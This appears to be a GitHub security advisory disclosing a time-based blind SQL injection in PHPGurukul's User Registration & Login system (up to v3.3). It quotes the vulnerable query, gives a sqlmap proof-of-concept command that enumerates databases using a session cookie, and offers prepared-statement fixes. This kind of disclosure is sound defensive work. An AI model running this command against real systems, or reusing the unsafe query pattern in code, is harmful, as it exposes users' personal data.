

# 🐞 SQL Injection in `bwdates-report-result.php` — User Registration & Login and User Management System With Admin Panel <= v3.3


### 👨‍💻 BUG Author:

**4m3rr0r**

---

### 📦 Product Information:

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version:** ≤ 3.3


---

### 🛠 Vulnerability Details

#### 🧨 Vulnerability Type:

**SQL Injection (Time-Based Blind)**

---

#### 🧬 Root Cause:

The application directly interpolates unvalidated POST parameters (`fromdate`, `todate`) into SQL queries without proper sanitization or use of prepared statements:

```php
$ret=mysqli_query($con,"select * from users where date(posting_date) between '$fdate' and '$tdate'");
```

---

#### ⚠️ Impact:

* An authenticated attacker can execute arbitrary SQL queries on the database.
* Potential to extract sensitive user data (e.g., emails, contact numbers, and registration info).
* Can enumerate all databases and their contents.
* May lead to full database compromise if escalated.

---

#### 📋 Description:

The `bwdates-report-result.php` file is vulnerable to SQL Injection via POST parameters `fromdate` and `todate`. Due to lack of input sanitization, an attacker can manipulate SQL queries by injecting malicious payloads. Exploitation is possible through authenticated sessions.

---

#### 🔬 Proof of Concept:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/bwdates-report-result.php" \
--data="fromdate=2024-01-01&todate=2025-12-31" \
--cookie="PHPSESSID=pakmg0q2gnmjag2514g76fdmtd" \
--dbs
```

 


---

#### 🛡 Suggested Remediation:

* Use **prepared statements (PDO or MySQLi)** with bound parameters.
* Example (MySQLi with bind):

```php
$stmt = $con->prepare("SELECT * FROM users WHERE date(posting_date) BETWEEN ? AND ?");
$stmt->bind_param("ss", $fdate, $tdate);
$stmt->execute();
```

* Sanitize and validate all user inputs before usage in SQL queries.

---

#### 🔐 Security Recommendations:

* Implement Web Application Firewall (WAF) to detect and block SQLi attempts.
* Enable detailed input validation on server-side.
* Enforce least privilege database access.
* Use security libraries or ORM frameworks when possible.

---

#### 📚 References:

* [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [https://phpgurukul.com](https://phpgurukul.com)

---
